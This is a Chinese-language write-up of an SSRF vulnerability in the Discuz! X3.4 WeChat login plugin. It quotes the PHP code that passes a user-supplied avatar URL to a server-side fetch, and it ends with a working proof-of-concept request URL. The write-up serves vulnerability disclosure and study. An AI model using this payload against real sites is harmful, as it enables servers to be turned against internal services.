 ```yaml
---
title: Discuz x3.4 Weixin Plugin ssrf
id: zhfly2874
---
```


# Discuz! X3.4 Weixin Plugin ssrf

## 一、漏洞简介

## 二、漏洞影响

Discuz! X3.4

## 三、复现过程

`source/plugin/wechat/wechat.class.php` `WeChat`类`syncAvatar`方法：

```
 static public function syncAvatar($uid, $avatar) {

```
 if(!$uid || !$avatar) {
        return false;
    }

    if(!$content = dfsockopen($avatar)) {
        return false;
    }

    $tmpFile = DISCUZ_ROOT.'./data/avatar/'.TIMESTAMP.random(6);
    file_put_contents($tmpFile, $content);

    if(!is_file($tmpFile)) {
        return false;
    }

    $result = uploadUcAvatar::upload($uid, $tmpFile);
    unlink($tmpFile);

    C::t('common_member')-&gt;update($uid, array('avatarstatus'=&gt;'1'));

    return $result;
} 
``` 
```

`source/plugin/wechat/wechat.inc.php` 中调用了`WeChat::syncAvatar`，直接用`$_GET['avatar']`作为参数传进去：

```
......

elseif(($ac == ‘register’ && submitcheck(‘submit’) || $ac == ‘wxregister’) && $_G[‘wechat’][‘setting’][‘wechat_allowregister’]) {

```
 ......

    $uid = WeChat::register($_GET['username'], $ac == 'wxregister');

    if($uid &amp;&amp; $_GET['avatar']) {
        WeChat::syncAvatar($uid, $_GET['avatar']);
    } 
``` `}` 
```

不过因为这里用到了微信登录的插件，所以要利用的话需要目标站开启微信登录：

![image](../img/41828cc82eeded53ce109c60fa192880.png)

这里 SSRF 的构造很简单，直接在`avatar`参数构造 url 即可（只是注意`wxopenid`参数每次请求都要足够随机保证没有重复，如果重复的话代码是无法走到发起请求的逻辑的）：

### poc

```
http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http://localhost:9090/dz-weixin-plugin-ssrf&wxopenid=dont_be_evil 
```

![image](../img/b511b065a6c823682f017490b819f237.png)